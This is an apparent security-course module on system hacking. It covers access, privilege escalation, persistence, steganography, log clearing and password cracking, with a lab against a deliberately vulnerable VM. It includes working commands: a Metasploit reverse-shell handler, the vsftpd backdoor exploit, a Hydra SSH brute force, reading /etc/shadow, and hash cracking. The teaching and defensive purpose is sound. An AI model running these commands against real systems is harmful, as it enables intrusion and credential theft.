

# System Hacking

> **What you'll learn:** How attackers break into a single computer, raise their privileges, stay hidden, crack passwords, and erase their tracks — and how defenders stop each step.
> **Prerequisites:** Comfort with a Linux terminal, basic networking (IP addresses, ports), and an understanding of footprinting/scanning (the recon phases that come *before* this module).

| Course | Course code | Module | Level |
| --- | --- | --- | --- |
| CSPP Professional Level 1 | SKL-CSP1-710 | Module 06 — System Hacking | level1 |

---

## 1. In Plain English

Imagine a building. The earlier modules in this course are about *casing the building* — walking around it, photographing the doors, noting which windows are open, and figuring out which lock brand is used. **System hacking is the part where someone actually gets *inside*.**

Once an attacker is inside one room (a regular user account), they usually want more. They want the master key (administrator access). They want to make sure they can come back tomorrow even if the front-door lock is changed (persistence). They might hide stolen documents inside an ordinary-looking painting on the wall (steganography). And on the way out, they wipe the security-camera footage so nobody knows they were ever there (clearing logs / anti-forensics).

For a total beginner, this matters because it is the **clearest map of how a real intrusion unfolds**. Almost every news headline about a "hacked company" follows this same shape: get in, get bigger, stay in, take stuff, cover up. If you understand the five steps, you understand 90% of real-world attacks — and, crucially, you learn where defenders can put up walls.

Everything here is taught for **authorized testing and education only**. A penetration tester does exactly these steps, but with written permission and a goal of fixing the holes, not exploiting them.

---

## 2. Core Concepts

### System Hacking Concepts (the five-phase model)

**System hacking** is the set of techniques used to compromise an individual computer (a "host" or "system") after reconnaissance is done. It is traditionally broken into a goal-driven pipeline:

1. **Gaining access** — getting your first foothold (any valid login or code execution).
2. **Escalating privileges** — turning a low-power account into a high-power one (admin/root).
3. **Maintaining access (persistence)** — making sure you can return without redoing step 1.
4. **Hiding data / exfiltration** — concealing what you take (e.g., steganography).
5. **Clearing logs / anti-forensics** — removing evidence so detection and investigation fail.

Each phase has its own tools and its own defenses, and they map closely to the **MITRE ATT&CK** framework's tactics (Initial Access, Privilege Escalation, Persistence, Defense Evasion, etc.). ATT&CK is a free, industry-standard catalogue of attacker behaviors maintained by MITRE.

### Gaining Access

**Gaining access** means obtaining a usable presence on the target. Common routes:

- **Credential-based:** logging in with a username/password the attacker stole, guessed, or cracked.
- **Exploit-based:** abusing a software bug (a **vulnerability**) to run the attacker's code. A ready-made program that triggers a vulnerability is called an **exploit**, and the code it delivers is the **payload**.
- A **shell** is the prize: an interactive command line on the target. A **reverse shell** makes the *target* connect back to the attacker (handy for getting past firewalls that block inbound connections); a **bind shell** opens a listening port on the target.

### Escalating Privileges

After gaining access you usually land as a low-privilege user. **Privilege escalation** is the act of increasing your rights.

- **Vertical escalation:** going *up* — a normal user becomes `root` (Linux superuser) or `SYSTEM`/Administrator (Windows). This is the high-value goal.
- **Horizontal escalation:** moving *sideways* — accessing another user's account at the same privilege level.

Escalation typically exploits a misconfiguration or bug: a program running as root with weak file permissions, a writable scheduled task, a kernel vulnerability, or a Linux **SUID binary** (a program that runs with its owner's privileges rather than the caller's).

### Maintaining Access / Persistence

**Persistence** ensures the attacker survives reboots, password changes, and patches. Techniques include creating a hidden user account, installing a **backdoor** (a secret way back in), scheduling a task that re-launches the payload (cron on Linux, Scheduled Tasks/Run keys on Windows), or installing a **rootkit** — malware that embeds deep in the operating system to stay invisible.

### Image Steganography

**Steganography** is hiding the *existence* of a message — not just scrambling it. **Cryptography** hides the *content* (you can see there's a secret but can't read it); steganography hides the fact that there's a secret at all. **Image steganography** tucks data inside picture files, often by altering the **least significant bit (LSB)** of each pixel's color value — a change too tiny for the human eye to notice. Attackers use it to sneak stolen data past inspection or to smuggle commands to malware.

### Clearing Logs & Anti-Forensics

**Logs** are the records an operating system keeps of who logged in, what ran, and what failed. **Clearing logs** means deleting or editing those records to hide activity. **Anti-forensics** is the broader practice of frustrating investigators — wiping files securely, altering timestamps (**timestomping**), disabling logging, or hiding data. (For defenders, this is why logs should be shipped *off the host* in real time.)

### Password Cracking Techniques

Passwords are rarely stored in plain text; they're stored as **hashes** — one-way scrambles produced by a function like NTLM or bcrypt. You can't reverse a hash, so attackers *guess* candidate passwords, hash each guess, and compare. Main techniques:

- **Brute force:** try every possible combination. Guaranteed but slow.
- **Dictionary attack:** try words from a wordlist (e.g., the famous `rockyou.txt` leak).
- **Hybrid attack:** dictionary words plus mutations (`password` → `Password1!`).
- **Rule-based:** apply transformation rules to a wordlist.
- **Rainbow tables:** giant precomputed hash→password lookup tables (defeated by **salting** — adding random data to each password before hashing).
- **Credential stuffing:** reuse username/password pairs leaked from other breaches.

---

## 3. How It Works (Step by Step)

Here is the canonical flow a penetration tester follows on an authorized engagement:

1. **Recon hand-off.** Scanning has revealed an open service (say, an outdated web app or SMB share) and maybe some usernames.
2. **Gain access.** Either crack/guess a credential, or fire an exploit that gives a reverse shell. The tester now has a low-privilege session.
3. **Local enumeration.** From inside, the tester inspects the host: OS version, running services, file permissions, scheduled jobs, and SUID binaries — looking for an escalation path.
4. **Escalate privileges.** Abuse a misconfiguration or kernel bug to become root/SYSTEM.
5. **Maintain access.** Drop a backdoor or add a persistence mechanism so the foothold survives.
6. **Act on objective / hide data.** Locate target data; optionally hide it via steganography before exfiltration.
7. **Cover tracks.** Clear or tamper with logs and timestamps (in a real test this is *documented*, not used to truly evade the client).
8. **Report.** The tester writes up every step so the organization can fix each weakness.



---

## 4. Real-World Examples

**Mirai botnet (2016).** Mirai spread by *gaining access* to internet-connected cameras and routers using a built-in list of default username/password pairs (e.g., `admin/admin`) — a textbook credential-based access plus dictionary-style guessing. It then maintained access and used the devices to launch one of the largest distributed denial-of-service attacks ever recorded against the DNS provider Dyn. **Lesson:** default credentials are an open door.

**"Pass-the-hash" in enterprise breaches.** In many corporate intrusions, attackers don't even need the plaintext password. Once they grab a Windows password **hash** from one machine's memory, they can reuse the hash directly to authenticate to other machines (a technique called *pass-the-hash*). This blends privilege escalation and lateral movement and is a recurring theme in incident reports involving the Mimikatz tool.

**Steganographic malware command channels.** Several documented malware families have hidden configuration data or stolen information inside image files posted to public sites, so the traffic looks like ordinary picture downloads. This makes detection by simple network filters very hard — illustrating exactly why steganography is part of the attacker toolkit.

---

## 5. Tools of the Trade

> All tools below are standard, legal security software used by professionals on systems they are authorized to test.

### Metasploit Framework — exploitation & post-exploitation

A platform of ready exploits, payloads, and post-exploitation modules.

```bash
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 10.0.0.5
set LPORT 4444
run
```

This starts a *listener* (handler) that catches a reverse Meterpreter shell connecting back to the attacker at `10.0.0.5:4444` — used to receive a session after an exploit fires.

### John the Ripper — password cracking

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

Runs a dictionary attack: each word in `rockyou.txt` is hashed and compared against the hashes in `hashes.txt`. John auto-detects the hash type.

### Hashcat — GPU-accelerated cracking

```bash
hashcat -m 1000 -a 0 hashes.txt rockyou.txt
```

`-m 1000` selects the NTLM hash mode, `-a 0` chooses a straight dictionary attack. Hashcat uses the graphics card for massive speed.

### Hydra — online (network) credential attacks

```bash
hydra -l admin -P passwords.txt ssh://192.168.56.101
```

Tries each password in `passwords.txt` for the user `admin` against the SSH service on the target. Use only against authorized hosts; online attacks are noisy and often locked out.

### LinPEAS / WinPEAS — privilege-escalation enumeration

```bash
./linpeas.sh
```

Scans a Linux host and highlights likely escalation paths (writable files, SUID binaries, weak service configs) in color-coded output.

### Steghide — image/audio steganography

```bash
steghide embed -cf cat.jpg -ef secret.txt
steghide extract -sf cat.jpg
```

The first command embeds `secret.txt` inside `cat.jpg` (prompting for a passphrase); the second extracts hidden data from a stego file.

---

## 6. Hands-On Lab (Authorized / Lab-Only)

> **Reminder:** Perform these steps ONLY on systems you own or are explicitly authorized to test, such as a local Metasploitable 2 VM on an isolated network. Never against a system you do not control.

**Target:** Metasploitable 2 — a deliberately vulnerable Linux VM — running at `192.168.56.101`, attacked from a Kali Linux VM. We will gain access, escalate, capture password hashes, and crack them.

**Step 1 — Scan for an entry point.**
```bash
nmap -sV 192.168.56.101
```
*Expected:* a list of services with versions. You'll see an old `vsftpd 2.3.4` on port 21 and `OpenSSH` on 22. The vsftpd version is famously backdoored — that's our way in.

**Step 2 — Gain access with Metasploit.**
```bash
msfconsole -q
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
run
```
*Expected:* `Command shell session 1 opened`. Confirm who you are:
```bash
id
```
*Interpretation:* if it returns `uid=0(root)`, this particular exploit already lands as root. On other footholds you'd land as a low user and continue to Step 3.

**Step 3 — Enumerate for escalation (when you land as a normal user).**
```bash
./linpeas.sh | tee linpeas.out
```
*Expected:* color-highlighted findings. Look for lines flagged red/yellow: writable `/etc/passwd`, unusual SUID binaries, or a vulnerable kernel. *Interpretation:* each flagged item is a candidate path to root. Pick the simplest (e.g., a known SUID misconfiguration) and exploit it.

**Step 4 — Capture password hashes (now that you are root).**
```bash
cat /etc/shadow
```
*Expected:* lines like `user:$1$xyz$....:...`. The `$1$` marks an MD5-crypt hash. Copy these into a file `hashes.txt` on your Kali box.

**Step 5 — Crack the hashes offline.**
```bash
john --format=md5crypt hashes.txt
john --show hashes.txt
```
*Expected:* after some time, `john --show` lists recovered `user:password` pairs (Metasploitable's accounts use weak passwords like `msfadmin`). *Interpretation:* weak passwords fall in seconds; this demonstrates exactly why length and complexity matter.

**Step 6 — Demonstrate persistence (lab only).** Add a benign cron entry or note a backdoor you *would* place, then **document everything** and **revert the VM to a clean snapshot**. In a real engagement you remove all changes and report them.

---

## 7. Countermeasures & Defenses

**Preventing initial access**
- Patch promptly; remove or upgrade end-of-life software (the vsftpd hole above is a patch problem).
- Eliminate default and shared credentials; enforce multi-factor authentication (MFA).
- Disable unused services and close unneeded ports.

**Stopping privilege escalation**
- Apply least privilege: users and services get only the rights they need.
- Audit SUID/SGID binaries and writable files; fix loose permissions.
- Keep the OS kernel and local software patched.

**Detecting persistence**
- Baseline and monitor scheduled tasks, cron jobs, startup/Run keys, and new accounts.
- Use file-integrity monitoring (e.g., AIDE, Tripwire) to catch backdoors and rootkits.

**Defeating password attacks**
- Store passwords with strong, *salted* algorithms (bcrypt, scrypt, Argon2) — never plain MD5/SHA.
- Enforce length-first password policies and check against breach lists.
- Lock out / rate-limit online login attempts to blunt Hydra-style attacks.

**Countering steganography & exfiltration**
- Monitor for unusual outbound data; use DLP (data loss prevention) tools.
- Inspect/normalize images at boundaries where feasible; track abnormal file sizes.

**Beating log clearing / anti-forensics**
- Ship logs off-host in real time to a SIEM (centralized log platform) so deleting local logs doesn't erase evidence.
- Make logs append-only / tamper-evident; alert when a log service stops or a log is cleared (Windows Event ID 1102, for example).

---

## 8. Key Terms

- **Vulnerability** — a flaw that can be abused to compromise a system.
- **Exploit** — code or a technique that triggers a vulnerability.
- **Payload** — the code that runs on the target after an exploit succeeds (e.g., a reverse shell).
- **Shell** — interactive command-line access to a system.
- **Privilege escalation** — gaining higher rights (vertical = upward; horizontal = sideways).
- **SUID binary** — a Linux program that runs with its owner's privileges, a common escalation vector.
- **Persistence / backdoor** — mechanisms to keep returning to a compromised host.
- **Rootkit** — malware that hides itself deep in the OS to maintain stealthy access.
- **Hash** — a one-way scramble of a password; what cracking tools attack.
- **Salt** — random data added before hashing to defeat rainbow tables.
- **Steganography** — hiding the existence of data (e.g., inside an image's least significant bits).
- **Anti-forensics / timestomping** — techniques to destroy or falsify evidence such as logs and timestamps.
- **SIEM** — a central system that collects and analyzes logs for detection.

---

## 9. Summary & Takeaways

- System hacking follows a repeatable pipeline: **gain access → escalate → persist → hide/exfiltrate → cover tracks.**
- **Gaining access** comes from stolen credentials or exploited vulnerabilities; a reverse shell is the typical first prize.
- **Privilege escalation** turns a foothold into full control by abusing misconfigurations, weak permissions, or kernel bugs.
- **Persistence** (backdoors, cron jobs, rootkits) lets attackers return — so monitor for new accounts and startup changes.
- **Passwords are cracked, not reversed:** dictionary, brute-force, and rule-based guessing against hashes — defeated by salting and strong algorithms.
- **Steganography** hides data inside ordinary files; defend with DLP and outbound-traffic monitoring.
- **Clearing logs** is neutralized by shipping logs off-host to a SIEM in real time.
- The best single defense across all phases is **least privilege + patching + centralized logging + MFA**.

**Further reading:** MITRE ATT&CK (Privilege Escalation, Persistence, and Defense Evasion tactics); OWASP Testing Guide; NIST SP 800-63B (Digital Identity / password guidance); NIST SP 800-86 (Guide to Integrating Forensic Techniques into Incident Response).
